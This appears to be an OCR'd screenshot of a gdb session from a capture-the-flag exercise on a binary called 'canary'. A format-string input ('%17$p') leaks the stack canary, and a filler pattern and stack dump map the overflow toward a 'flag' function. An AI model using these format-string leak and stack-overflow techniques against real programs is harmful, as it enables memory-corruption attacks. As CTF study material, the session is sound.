 ```
(gdb) b *0x0000000000400940
Breakpoint 1 at 0x400940
(gdb) b *0x0000000000400956
Breakpoint 2 at 0x400956

(gdb) r
Starting program: /pwn/canary 
Cock-a-doodle-doo! Cock-a-doodle-doo!

        .-"-.
       / 4 4 \
       \_ v _/
       //   \\
      ((     ))
=======""===""=======
         |||
         '|'

Ahhhh, what a beautiful morning on the farm!
And my canary woke me up at 5 AM on the dot!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Hi! What's your name? ;%17$p;
Nice to meet you, ;0x845f7fced767200;!
Anything else you want to tell me? AAAABBBBAAAABBBBAAAABBBB

Breakpoint 1, 0x0000000000400940 in greet ()

(gdb) x/20xg $rsp
0x7fffffffe5f0:	0x213b70243731253b	0x000000000040000a
0x7fffffffe600:	0x00007fffffffe750	0x00007ffff7a8781b
0x7fffffffe610:	0x4242424241414141	0x4242424241414141
0x7fffffffe620:	0x4242424241414141	0x00007ffff7a7c700
0x7fffffffe630:	0x0000000000000000	0x00007fffffffe650
0x7fffffffe640:	0x00000000004006a0	0x0845f7fced767200
0x7fffffffe650:	0x00007fffffffe670	0x00000000004009c9
0x7fffffffe660:	0x00007fffffffe750	0x0000000000000000
0x7fffffffe670:	0x00000000004009d0	0x00007ffff7a2d830
0x7fffffffe680:	0x0000000000000001	0x00007fffffffe758

(gdb) c
Continuing.

Breakpoint 2, 0x0000000000400956 in greet ()
(gdb) i r rsp
rsp            0x7fffffffe658	0x7fffffffe658
(gdb) x flag
0x400787 <flag>:	0xe5894855
(gdb)
```
